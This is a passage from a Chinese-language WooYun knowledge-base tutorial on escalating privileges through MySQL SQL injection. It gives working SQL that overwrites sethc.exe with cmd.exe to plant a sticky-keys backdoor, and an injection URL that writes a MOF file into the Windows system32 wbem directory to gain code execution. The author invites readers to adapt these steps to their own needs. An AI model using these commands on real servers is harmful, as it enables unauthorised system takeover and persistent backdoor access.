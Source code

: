 因为没有办法去创建一个 function 所以用注入点实现 udf 提权在上一步就死了，通过在命令行执行创建 function 只能算是心灵安慰了，只要完成了 create function 那一步我们就真的成功了，因为调用自定义 function 非常简单：

![enter image description here](img/img43_u4_png.jpg)

#### MOF 和 sethc 提权：

MOF 和 sethc 提权我就不详讲了，因为看了上面的 udf 提权你已经具备自己导入任意文件到任意目录了，而 MOF 实际上就是写一个文件到指定目录，而 sethc 提权我只成功模糊的过一次。在命令行下利用 SQL 大概是这样的：

```
create table mix_cmd( shift longblob);
insert into mix_cmd values(load_file(‘c:\windows\system32\cmd.exe’));

select * from mix_cmd into dumpfile ‘c:\windows\system32\sethc.exe’;

drop table if exists mix_cmd; 
```

现在的管理员很多都会自作聪明的去把 net.exe、net1.exe 、cmd.exe、sethc.exe 删除防止入侵。当 sethc 不存在时我们可以用这个方法去试下，怎么确定是否存在?load_file 下看人品了,如果 cmd 和 sethc 都不存在那么按照上面的 udf 提权三部曲上传一个 cmd.exe 到任意目录。

```
SELECT LOAD_FILE('c:/windows/system32/cmd.exe') INTO DUMPFILE'c:/windows/system32/sethc.exe' 
```

MOF 大约是这样：

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select char(ascii 转换后的代码),'','','' into dumpfile 'c:/windows/system32/wbem/mof/nullevts.mof' 
```

#### Mysql 小结：

我想讲的应该是一种方法而不是 SQL 怎么去写，学会了方法自然就会自己去拓展，当然了最好不要向上面 udf 那么二。有了上面的 demo 相信大家都会知道怎么去修改满足自己的需求了。学的不只是方法而是思路切记！

**Tags:** [java](http://drops.wooyun.org/tag/java), [sql 注入](http://drops.wooyun.org/tag/sql%e6%b3%a8%e5%85%a5)

版权声明：未经授权禁止转载 [园长](http://drops.wooyun.org/author/园长 "由 园长 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：
